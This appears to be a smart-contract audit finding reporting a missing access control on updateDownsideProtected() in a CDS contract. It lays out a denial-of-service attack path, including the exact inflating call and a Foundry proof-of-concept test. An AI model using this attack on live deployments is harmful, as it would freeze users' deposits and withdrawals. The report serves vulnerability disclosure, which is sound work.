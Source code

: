 Young Lemonade Chimpanzee

Medium

# updateDownsideProtected() to Deny Service and Cause Protocol Disruption

### Summary

A missing access control in updateDownsideProtected() allows attackers to inflate the downsideProtected variable arbitrarily, disrupting the protocol by reducing totalCdsDepositedAmount to zero or triggering reverts. This Denial of Service (DoS) attack blocks legitimate users from interacting with the protocol and destabilizes its internal accounting.

### Root Cause

Code Location: In CDS.sol, `updateDownsideProtected()` lacks access restrictions, enabling anyone to call it with unvalidated input:

```solidity

function updateDownsideProtected(uint128 downsideProtectedAmount) external {
    downsideProtected += downsideProtectedAmount;
}
```

Impact: During deposit or withdrawal operations, _updateCurrentTotalCdsDepositedAmount() subtracts the inflated downsideProtected value from totalCdsDepositedAmount, causing significant accounting errors:

```solidity

function _updateCurrentTotalCdsDepositedAmount() private {
    if (downsideProtected > 0) {
        totalCdsDepositedAmount -= downsideProtected;
        totalCdsDepositedAmountWithOptionFees -= downsideProtected;
        downsideProtected = 0;
    }
}
```

### Internal pre-conditions

The updateDownsideProtected() function must remain unrestricted.
totalCdsDepositedAmount must be a positive value.
An attacker calls updateDownsideProtected() with a massive downsideProtectedAmount.


### External pre-conditions

_No response_

### Attack Path

Assume totalCdsDepositedAmount = 500,000 USDa.
The downsideProtected variable is normally negligible unless legitimate coverage is applied.

An attacker calls:
`cds.updateDownsideProtected(1_000_000_000e18);`
This inflates downsideProtected to an unrealistically high value.

Triggering the Disruption:
When any user interacts with the protocol (e.g., calling deposit() or withdraw()), _updateCurrentTotalCdsDepositedAmount() 

executes:
```solidity

totalCdsDepositedAmount -= downsideProtected;
downsideProtected = 0;
```
The subtraction reduces totalCdsDepositedAmount to a large negative value or reverts due to underflow.

Result:
Protocol reverts any further operations relying on totalCdsDepositedAmount, such as calculateRatio() or collateralization checks.
Legitimate users are blocked from deposits, withdrawals, or redemptions.

### Impact

Denial of Service:
Blocks legitimate user interactions across the protocol.
Prevents deposits, withdrawals, and other critical operations.
System Instability:
Misrepresents totalCdsDepositedAmount in core logic, destabilizing CDS coverage ratios and potentially forcing erroneous liquidations.
User Loss:
Honest users suffer from frozen positions and blocked access to funds.


### PoC

```solidity
// SPDX-License-Identifier: GPL-3.0-or-later
pragma solidity >=0.8.0;

import "forge-std/Test.sol";
import "../src/CDS.sol";

contract UpdateDownsideProtectedExploitTest is Test {
    CDS private cds;

    address attacker = address(0xdead);
    address user = address(0xbeef);

    function setUp() public {
        cds = new CDS();
        vm.deal(attacker, 10 ether);
        vm.deal(user, 50 ether);

        // User deposits to set an initial totalCdsDepositedAmount
        vm.startPrank(user);
        cds.deposit{value: 10 ether}(0, 50000 * 10 ** 18, false, 0, 30 days);
        vm.stopPrank();
    }

    function testExploit() public {
        vm.startPrank(attacker);

        // Attacker inflates downsideProtected
        cds.updateDownsideProtected(1_000_000_000e18);

        // Legitimate user attempts to withdraw, triggering the underflow
        vm.startPrank(user);
        vm.expectRevert("CDS_NotEnoughFundInCDS");
        cds.withdraw(1, 0, 0, new bytes(0));
        vm.stopPrank();
    }
}
```


### Mitigation

_No response_